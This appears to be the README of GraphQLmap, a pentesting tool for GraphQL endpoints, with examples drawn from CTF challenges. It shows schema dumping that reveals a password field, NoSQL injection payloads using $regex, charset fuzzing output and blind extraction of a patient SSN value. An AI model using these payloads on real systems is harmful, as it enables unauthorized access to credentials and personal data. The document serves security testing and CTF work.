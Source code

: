 # GraphQLmap

> GraphQLmap is a scripting engine to interact with a graphql endpoint for pentesting purposes.

Features :
- Dump a GraphQL schema
- Interact with a GraphQL endpoint
- Execute GraphQL queries
- Autocomplete queries
- NoSQL injection inside a GraphQL field
- SQL injection inside a GraphQL field
- GraphQL field fuzzing


## Install

```
$ git clone github.com/swisskyrepo/GraphQLmap
$ python graphqlmap.py                                                              
   _____                 _      ____  _                            
  / ____|               | |    / __ \| |                           
 | |  __ _ __ __ _ _ __ | |__ | |  | | |     _ __ ___   __ _ _ __  
 | | |_ | '__/ _` | '_ \| '_ \| |  | | |    | '_ ` _ \ / _` | '_ \ 
 | |__| | | | (_| | |_) | | | | |__| | |____| | | | | | (_| | |_) |
  \_____|_|  \__,_| .__/|_| |_|\___\_\______|_| |_| |_|\__,_| .__/ 
                  | |                                       | |    
                  |_|                                       |_|    
                                         Author:Swissky Version:1.0
usage: graphqlmap.py [-h] [-u URL] [-v [VERBOSITY]]

optional arguments:
  -h, --help      show this help message and exit
  -u URL          URL to query : example.com/graphql?query={}
  -v [VERBOSITY]  Enable verbosity
```


## Examples

:warning: Examples are based on several CTF challenges from HIP2019.


Use `dump` to dump the GraphQL schema, this function will automaticly populate the "autocomplete" with the found fields.    
[:movie_camera: Live Example](https://asciinema.org/a/A2oTO2KrVkkwlFapOdoETqtKa)

```powershell
GraphQLmap > dump                     
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)                   
                                                                                               
Query                                          
        doctor[]: email (String!),                                                             
        doctors[Doctor]:                                                                       
        patients[Patient]:                                                                     
        patient[]: id (ID!),                   
        allrendezvous[Rendezvous]:                                                             
        rendezvous[]: id (ID!),                                                                
Doctor                                         
        id[ID]:                                                                                
        firstName[String]:                     
        lastName[String]:                                                                      
        specialty[String]:                     
        patients[None]: 
        rendezvous[None]: 
        email[String]: 
        password[String]: 
[...]
```

Write a GraphQL request to execute it.

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
{
    "data": {
        "doctors": [
            {
                "firstName": "Admin",
                "id": "5d089c51dcab2d0032fdd08d",
                "lastName": "Admin"
            }
        ]
    }
}
```

Use `GRAPHQL_INCREMENT` and `GRAPHQL_CHARSET` to fuzz a parameter.      
[:movie_camera: Live Example](https://asciinema.org/a/FsXjsHQ9YilY18ofoOTrs8wXR)

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"AdmiGRAPHQL_CHARSET\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi!\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi$\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi%\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi(\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi)\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi*\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi+\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi,\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi-\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi.\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi/\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi0\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi1\"} }"){firstName lastName id}}     
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi?\"} }"){firstName lastName id}}
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
```

Use `BLIND_PLACEHOLDER` inside the query for the `nosqli` function.    
[:movie_camera: Live Example](https://asciinema.org/a/geENvCljpOCBhBZ2Y3joAJwDc)

```powershell
GraphQLmap > nosqli
Query > {doctors(options: "{\"\"patients.ssn\":1}", search: "{ \"patients.ssn\": { \"$regex\": \"^BLIND_PLACEHOLDER\"}, \"lastName\":\"Admin\" , \"firstName\":\"Admin\" }"){id, firstName}}
Check > 5d089c51dcab2d0032fdd08d
[+] Data found: 4f537c0a-7da6-4acc-81e1-8c33c02ef3b
```

